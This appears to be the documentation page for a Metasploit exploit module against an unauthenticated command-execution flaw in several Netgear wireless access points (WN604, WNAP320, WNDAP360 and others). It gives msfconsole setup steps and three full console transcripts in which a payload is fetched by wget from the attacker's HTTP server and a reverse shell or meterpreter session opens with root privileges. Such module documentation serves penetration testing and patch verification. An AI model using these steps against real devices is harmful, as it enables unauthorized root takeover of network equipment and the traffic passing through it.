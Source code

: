 ## Description


The module leverages an unauthenticated arbitrary command execution vulnerability in Netgear WN604 before 3.3.3 and WN802Tv2, WNAP210v2, WNAP320, WNDAP350, WNDAP360, and WNDAP660 before 3.5.5.0. The vulnerability occurs within how the router handles POST requests from (1) boardData102.php, (2) boardData103.php, (3) boardDataJP.php, (4) boardDataNA.php, and (5) boardDataWW.php. The vulnerability was discovered by Daming Dominic Chen, creator of FIRMADYNE (https://github.com/firmadyne/firmadyne).

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set SRVHOST [Your server's IP]` if your payload isn't being hosted on another system
  5. Do : `set LHOST [Your IP]`
  6. Do : `set MAC_ADDRESS [12 digit number]` if you want some specific MAC address instead of a random one
  7. Do : `set TARGETURI [target URI]` if you want to target another URI instead of the default `boardDataWW.php`
  8. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp` if you want meterpreter session
  9. Do : `exploit`
  10. If router is vulnerable, payload should be dropped via wget (the default HTTP stager) and executed, and you should obtain a session


## Example with default payload (linux/mipsbe/shell_reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.200.100
RHOST => 192.168.200.100
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.200.99
LHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.200.99
SRVHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.200.99:4444 
[*] Using URL: http://192.168.200.99:8080/Ekvrz8LbW
[*] Client 192.168.200.100 (Wget) requested /Ekvrz8LbW
[*] Sending payload to 192.168.200.100 (Wget)
[*] Command shell session 1 opened (192.168.200.99:4444 -> 192.168.200.100:56852) at 2018-10-09 20:24:56 +0630
[*] Command Stager progress - 118.97% done (138/116 bytes)
[*] Server stopped.

uname -a
Linux netgear123456 2.6.32.70 #1 Thu Feb 18 01:39:21 UTC 2016 mips unknown
id
uid=0(root) gid=0(root)

```

## Example with meterpreter (linux/mipsbe/meterpreter/reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.200.100
RHOST => 192.168.200.100
msf exploit(linux/http/netgear_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.200.99
LHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.200.99
SRVHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.200.99:4444 
[*] Using URL: http://192.168.200.99:8080/x6ZYzUoe9x7IR
[*] Client 192.168.200.100 (Wget) requested /x6ZYzUoe9x7IR
[*] Sending payload to 192.168.200.100 (Wget)
[*] Sending stage (1108408 bytes) to 192.168.200.100
[*] Meterpreter session 1 opened (192.168.200.99:4444 -> 192.168.200.100:56854) at 2018-10-09 20:26:39 +0630
[*] Command Stager progress - 118.33% done (142/120 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.200.100
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 

```

## Example using some other vulnerable URI (boardDataNA.php)
```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.200.100
RHOST => 192.168.200.100
msf exploit(linux/http/netgear_unauth_exec) > set TARGETURI boardDataNA.php
TARGETURI => boardDataNA.php
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.200.99
LHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.200.99
SRVHOST => 192.168.200.99
msf exploit(linux/http/netgear_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.200.99:4444 
[*] Using URL: http://192.168.200.99:8080/zlJyAS8F1As
[*] Client 192.168.200.100 (Wget) requested /zlJyAS8F1As
[*] Sending payload to 192.168.200.100 (Wget)
[*] Command shell session 1 opened (192.168.200.99:4444 -> 192.168.200.100:56856) at 2018-10-09 20:28:41 +0630
[*] Command Stager progress - 118.64% done (140/118 bytes)
[*] Server stopped.

uname -a
Linux netgear123456 2.6.32.70 #1 Thu Feb 18 01:39:21 UTC 2016 mips unknown
id
uid=0(root) gid=0(root)
```
